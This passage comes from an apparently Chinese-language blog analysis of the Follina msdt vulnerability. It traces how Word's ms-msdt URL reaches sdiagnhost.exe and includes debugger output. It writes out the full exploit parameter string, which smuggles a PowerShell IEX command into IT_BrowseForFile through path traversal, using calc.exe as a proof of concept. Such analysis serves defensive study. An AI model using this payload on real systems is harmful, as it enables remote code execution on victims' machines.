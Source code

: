 ![Snipaste_2022-06-06_11-40-32](https://blog-1257303866.cos.ap-guangzhou.myqcloud.com/img/Snipaste_2022-06-06_11-40-32.png)

winword.exe解析该URL后会调用msdt.exe，并将命令行参数传入

![Snipaste_2022-06-06_12-44-35](https://blog-1257303866.cos.ap-guangzhou.myqcloud.com/img/Snipaste_2022-06-06_12-44-35.png)

***

**3.msdt.exe接收命令行参数后触发漏洞执行powershell命令：`IEX('calc.exe')`，调用了calc.exe**

因为直接打开msdt.exe需要输入技术支持人员密钥才能进行下一步诊断，通过参数`/id PCWDiagnostic`运行PCWDiagnostic程序兼容性诊断包绕过了该步骤

![Snipaste_2022-06-06_13-26-12](https://blog-1257303866.cos.ap-guangzhou.myqcloud.com/img/Snipaste_2022-06-06_13-26-12.png)

然而只是绕过输入密钥还不够，还需要点击下一页，才可以接收参数执行进程，通过参数`/skip force `绕过了该步骤，此时msdt会创建并启动服务，通过svchost.exe创建进程sdiagnhost.exe

![Snipaste_2022-06-08_11-08-59](https://blog-1257303866.cos.ap-guangzhou.myqcloud.com/img/Snipaste_2022-06-08_11-08-59.png)

接着再输入`/param "IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc.exe'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe"`就能通过sdiagnhost.exe执行powershell命令，整个漏洞利用完成。

![Snipaste_2022-06-08_09-52-02](https://blog-1257303866.cos.ap-guangzhou.myqcloud.com/img/Snipaste_2022-06-08_09-52-02.png)

整个漏洞利用链如图所示：

```flow
st=>start: winword.exe
e1=>end: msdt.exe
e2=>end: sdiagnhost.exe
op1=>operation: 远程模板加载poc.html
op2=>operation: 解析ms-msdt Office URL,创建进程msdt.exe
op3=>operation: msdt.exe接收命令行参数，运行程序兼容性诊断包
op4=>operation: 启动服务通过svchost.exe创建进程sdiagnhost.exe
op5=>operation: sdiagnhost.exe执行powershell命令
e=>end: 攻击成功
st->op1->op2->e1->op3->op4->e2->op5->e
```

## 漏洞利用细节

### word解析URL

word在解析ms-msdt Office URL时是通过mshtml.dll的ShellExecURL函数解析的，而该函数内部会调用ShellExecuteW执行命令行参数创建msdt.exe

```
0:000> r
rax=0000000000000000 rbx=0000000000000000 rcx=0000000000000000
rdx=0000000000000000 rsi=0000000080004005 rdi=00000267dfbe07f0
rip=00007ffa2fe2fe45 rsp=000000f644b0d410 rbp=000000f644b0d510
 r8=00000267dfb84838  r9=0000000000000000 r10=0000000000000000
r11=0000000000000246 r12=00007ffa3086e358 r13=0000000000000000
r14=0000000000000000 r15=0000000000000020
iopl=0         nv up ei pl zr na po nc
cs=0033  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000246
mshtml!ShellExecURL+0x24d:
00007ffa`2fe2fe45 48ff1554b8c600  call    qword ptr [mshtml!_imp_ShellExecuteW (00007ffa`30a9b6a0)] ds:00007ffa`30a9b6a0={mshtml!_imp_load_ShellExecuteW (00007ffa`2f8edaaa)}
0:000> du r8		//ShellExecuteW的执行参数
00000267`dfb84838  "ms-msdt:/id PCWDiagnostic /skip "
00000267`dfb84878  "force /param "IT_RebrowseForFile"
00000267`dfb848b8  "=cal?c IT_SelectProgram=NotListe"
00000267`dfb848f8  "d IT_BrowseForFile=h$(IEX('calc."
00000267`dfb84938  "exe'))i/../../../../../../../../"
00000267`dfb84978  "../../../../../../Windows/System"
```
